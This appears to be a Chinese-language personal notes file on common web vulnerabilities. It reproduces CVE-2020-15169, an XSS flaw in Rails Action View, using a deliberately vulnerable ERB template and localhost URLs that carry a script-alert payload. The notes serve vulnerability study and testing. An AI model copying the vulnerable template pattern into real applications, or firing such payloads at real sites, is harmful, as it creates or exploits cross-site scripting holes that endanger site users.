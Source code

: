 # 常见漏洞

## 资源
常见漏洞扫描器测试平台
http://demo.aisec.cn/
在线平台,看起来没有收费
http://www.aisec.cn/aiscanner

## rails

[[CVE-2020-15169] Potential XSS vulnerability in Action View](https://groups.google.com/g/rubyonrails-security/c/b-C9kSGXYrc)
> https://sourcegraph.com/github.com/rails/rails/-/compare/v5.2.4.3...v5.2.4.4
> https://sourcegraph.com/github.com/rails/rails@404ad9e8acf8ab45ae2314050131a00e57e63b40/-/blob/actionview/lib/action_view/helpers/translation_helper.rb#L77

rails new rails_vuls --webpack=react
rails g controller hello index

```erb
<h1>Home#index</h1>
<% untrusted_user_controlled_string = params[:a] %>
<%# The welcome_html translation is not defined for the current locale: %>
<%= t("welcome_html", default: untrusted_user_controlled_string) %>
<%= t("welcome_html_safe", default: t(untrusted_user_controlled_string)) %>

<% untrusted_user_controlled_string2 = params[:b] %>
<%# Neither the title.html translation nor the missing.html translation is defined for the current locale: %>
<%= t("title.html", default: [:"missing.html", untrusted_user_controlled_string2]) %>
```
http://localhost:3000/home/index?a=%3Cscript%3Ealert(2)%3C/script%3E
http://localhost:3000/home/index?b=%3Cscript%3Ealert(2)%3C/script%3E
